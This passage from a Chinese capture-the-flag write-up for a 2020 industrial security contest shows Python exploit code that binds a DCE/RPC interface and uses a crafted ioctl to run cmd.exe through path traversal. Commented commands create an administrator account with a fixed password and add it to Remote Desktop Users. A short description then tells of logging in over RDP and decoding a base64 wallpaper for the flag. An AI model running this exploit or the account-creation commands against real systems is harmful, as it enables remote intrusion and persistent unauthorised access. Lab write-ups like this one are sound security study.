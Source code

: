 ```py

dce = trans.get_dce_rpc()
dce.connect()

print "Binding..."
iid = uuid.uuidtup_to_bin((interface, version))
dce.bind(iid)

print "...1"
stubdata = struct.pack("<III", 0x00, 0xc351, 0x04)
call(dce, 2, stubdata)

print "...2"
stubdata = struct.pack("<I", 0x02)
res = call(dce, 4, stubdata)
if res == -1:
  print "Something went wrong"
  sys.exit(1)
res = struct.unpack("III", res)

if (len(res) < 3):
  print "Received unexpected length value"
  sys.exit(1)

print "...3"
# ioctl 0x2711
stubdata = struct.pack("<IIII", res[2], 0x2711, 0x204, 0x204)
command = "..\\..\\windows\\system32\\cmd.exe /c 命令"
#net user a Abcd1234 /add
#net localgroup administrators a /add
#net localgroup "Remote Desktop Users" a /add

fmt = "<" + str(0x204) + "s"
stubdata += struct.pack(fmt, command)
call(dce, 1, stubdata)

print "\nDid it work?"

dce.disconnect()
```

rdp 连接 a 然后改密码和上面的几题 web 一样用 everything 找 flag.txt, 但找出来的不对，后来发现桌面壁纸是个 base64，解一下得到 flag

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/15.png)

---
